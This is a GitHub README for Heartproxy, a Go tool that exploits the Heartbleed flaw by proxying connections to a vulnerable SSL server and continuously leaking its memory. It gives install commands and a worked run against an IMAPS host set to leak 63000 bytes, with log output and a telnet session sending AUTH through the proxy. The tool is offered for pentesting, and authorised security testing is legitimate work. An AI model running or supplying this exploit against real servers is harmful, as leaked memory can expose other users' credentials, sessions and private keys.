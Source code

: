 Heartproxy
==========
Heartbleed TCP to SSL proxy that constantly pulls leaked memory.

Use for pentesting to dump live memory chunks during an ongoing connection.

Based on work of Filippo Valsorda at https://github.com/FiloSottile/Heartbleed

Install
=======

```
go get github.com/mver/Heartproxy
go install github.com/mver/Heartproxy
```

Synopsis
========
Leaking 63000 Bytes from a vulnerable IMAPS server: 

``` 
[foo@bar/term1]$ Heartproxy 8080 mail.vulnerable.com:993 64000
2014/04/10 14:25:18 Using leaksize 63000
Listening on 8080
2014/04/10 14:25:25 New connection from: localhost
2014/04/10 14:25:25 Connected to target...
2014/04/10 14:25:25 starting up heartbeat collector
2014/04/10 14:25:25 starting up clientToTarget collector
2014/04/10 14:25:25 starting up targetToClient collector
...
```

```
[foo@bar/term2]$ telnet localhost 8080
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
AUTH ...
```
